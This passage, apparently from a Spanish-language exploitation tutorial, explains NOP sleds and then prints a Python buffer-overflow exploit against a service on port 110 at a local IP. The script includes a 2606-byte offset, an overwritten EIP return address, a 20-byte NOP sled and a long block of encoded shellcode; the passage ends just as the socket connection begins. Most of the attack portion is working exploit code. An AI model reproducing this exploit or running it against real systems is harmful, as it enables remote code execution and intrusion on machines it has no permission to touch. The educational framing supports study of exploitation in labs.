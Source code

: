     Aquí es donde entran en juego los NOPs:
    
    1. **Cadenas de NOPs:** Al colocar una cadena de NOPs en el búfer antes del shellcode, el atacante crea un "sled" (pista) de instrucciones que no hacen nada. Si el procesador comienza a ejecutar el código malicioso un poco antes de la dirección de inicio exacta del shellcode, es más probable que se deslice a través de la cadena de NOPs antes de llegar al shellcode real.
    2. **Aumento de la probabilidad de éxito:** La cadena de NOPs actúa como un colchón, aumentando las posibilidades de que la ejecución llegue finalmente al shellcode, independientemente de la dirección de inicio exacta. Esto puede ser especialmente útil cuando la ubicación exacta de la memoria es difícil de predecir debido a ASLR (Address Space Layout Randomization) u otras mitigaciones de seguridad.
    3. **Tolerancia a pequeños errores:** Incluso si la dirección de inicio del shellcode no coincide perfectamente con la dirección de retorno sobrescrita, los NOPs permiten cierto margen de error antes de llegar al código malicioso. Esto puede ser útil cuando hay pequeñas desviaciones en la ejecución debidas a variaciones en la memoria o el entorno.
    

Para agregar estos NOPs, se debe tomar en cuenta la arquitectura de la máquina víctima para que se interpreten correctamente los NOPs, en el caso de sistemas de 32 bits, se usa “\x90” y esto se debe agregar en el payload antes de ingresar el shellcode y la cantidad puede ser mayor a 16 NOPs:

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = pack("<L", 0x5f4c4d13)
shellcode = (b"\xbf\x77\x7d\x85\xae\xd9\xcb\xd9\x74\x24\xf4\x5a\x31\xc9"
b"\xb1\x52\x31\x7a\x12\x03\x7a\x12\x83\xb5\x79\x67\x5b\xc5"
b"\x6a\xe5\xa4\x35\x6b\x8a\x2d\xd0\x5a\x8a\x4a\x91\xcd\x3a"
b"\x18\xf7\xe1\xb1\x4c\xe3\x72\xb7\x58\x04\x32\x72\xbf\x2b"
b"\xc3\x2f\x83\x2a\x47\x32\xd0\x8c\x76\xfd\x25\xcd\xbf\xe0"
b"\xc4\x9f\x68\x6e\x7a\x0f\x1c\x3a\x47\xa4\x6e\xaa\xcf\x59"
b"\x26\xcd\xfe\xcc\x3c\x94\x20\xef\x91\xac\x68\xf7\xf6\x89"
b"\x23\x8c\xcd\x66\xb2\x44\x1c\x86\x19\xa9\x90\x75\x63\xee"
b"\x17\x66\x16\x06\x64\x1b\x21\xdd\x16\xc7\xa4\xc5\xb1\x8c"
b"\x1f\x21\x43\x40\xf9\xa2\x4f\x2d\x8d\xec\x53\xb0\x42\x87"
b"\x68\x39\x65\x47\xf9\x79\x42\x43\xa1\xda\xeb\xd2\x0f\x8c"
b"\x14\x04\xf0\x71\xb1\x4f\x1d\x65\xc8\x12\x4a\x4a\xe1\xac"
b"\x8a\xc4\x72\xdf\xb8\x4b\x29\x77\xf1\x04\xf7\x80\xf6\x3e"
b"\x4f\x1e\x09\xc1\xb0\x37\xce\x95\xe0\x2f\xe7\x95\x6a\xaf"
b"\x08\x40\x3c\xff\xa6\x3b\xfd\xaf\x06\xec\x95\xa5\x88\xd3"
b"\x86\xc6\x42\x7c\x2c\x3d\x05\x43\x19\x3d\xb1\x2b\x58\x3d"
b"\x38\x17\xd5\xdb\x50\x77\xb0\x74\xcd\xee\x99\x0e\x6c\xee"
b"\x37\x6b\xae\x64\xb4\x8c\x61\x8d\xb1\x9e\x16\x7d\x8c\xfc"
b"\xb1\x82\x3a\x68\x5d\x10\xa1\x68\x28\x09\x7e\x3f\x7d\xff"
b"\x77\xd5\x93\xa6\x21\xcb\x69\x3e\x09\x4f\xb6\x83\x94\x4e"
b"\x3b\xbf\xb2\x40\x85\x40\xff\x34\x59\x17\xa9\xe2\x1f\xc1"
b"\x1b\x5c\xf6\xbe\xf5\x08\x8f\x8c\xc5\x4e\x90\xd8\xb3\xae"
b"\x21\xb5\x85\xd1\x8e\x51\x02\xaa\xf2\xc1\xed\x61\xb7\xe2"
b"\x0f\xa3\xc2\x8a\x89\x26\x6f\xd7\x29\x9d\xac\xee\xa9\x17"
b"\x4d\x15\xb1\x52\x48\x51\x75\x8f\x20\xca\x10\xaf\x97\xeb"
b"\x30")

payload = before_eip + eip + b"\x90"*20 + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```